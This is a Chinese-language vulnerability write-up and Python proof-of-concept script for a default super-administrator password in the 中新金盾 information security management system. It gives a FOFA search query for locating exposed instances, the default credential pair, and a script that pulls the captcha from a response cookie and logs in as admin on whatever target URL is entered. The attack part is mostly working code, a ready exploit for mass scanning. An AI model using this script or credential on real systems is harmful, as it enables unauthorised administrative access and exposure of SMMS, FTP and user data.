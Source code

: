 # 中新金盾信息安全管理系统 默认超级管理员密码漏洞

## 漏洞描述

中新网络信息安全股份有限公司中新金盾信息安全管理系统存在默认弱口令，登录身份为超级管理员 目前大部分使用的都受到了影响

## 漏洞影响

> [!NOTE]
>
> 中新金盾信息安全管理系统

## FOFA

> [!NOTE]
>
> title="中新金盾信息安全管理系统"

## 漏洞复现

看到产品手册

![](image\zxjd-2.png)

系统默认管理员账号密码：

**admin/zxsoft1234!@#$**

![](image\zxjd-1.png)

登录页面如上，使用账号密码登录

其中泄露了大部分信息，其中包括 SMMS与FTP 及用户信息

![](image\zxjd-3.png)

![](image\zxjd-4.png)

## 漏洞利用POC

> [!NOTE]
>
> 请求  ?q=common/getcode  时
>
> 返回了验证码，通过验证码可爆破账号密码等操作

![](image/zxjd-6.png)

```python
import requests
import sys
import random
import re
import base64
import time
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 中新金盾信息安全管理系统 默认超级管理员密码漏洞                      \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "?q=common/getcode"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在获取验证码 {}?q=common/getcode ..... \033[0m".format(target_url))
        response_data = response.headers['Set-Cookie']
        check_code = re.findall(r'check_code=(.*?);', response_data)[0]
        PHPSESSID = re.findall(r'PHPSESSID=(.*?);', response_data)[0]
        print("\033[36m[o] 验证码:{}\n[o] PHPSESSID:{} \033[0m".format(check_code, PHPSESSID))
        POC_2(target_url, check_code, PHPSESSID)

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, check_code, PHPSESSID):
    vuln_url = target_url + "?q=common/login"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Cookie":"PHPSESSID={}; check_code={}".format(PHPSESSID, check_code),
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"
    }
    data = "name=admin&password=zxsoft1234!%40%23%24&checkcode={}&doLoginSubmit=1".format(check_code)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        if "1" in response.text and response.status_code == 200:
            print("\033[36m[o] 目标 {} 存在默认管理员弱口令 admin / zxsoft1234!@#$ \033[0m".format(target_url))
        else:
            print("\033[31m[x] 目标 {} 不存在默认管理员弱口令     \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](image/zxjd-5.png)

## Goby & POC

> [!NOTE]
>
> 中新金盾信息安全管理系统 默认超级管理员密码漏洞

![](image/zxjd-7.png)

![](image/zxjd-8.png)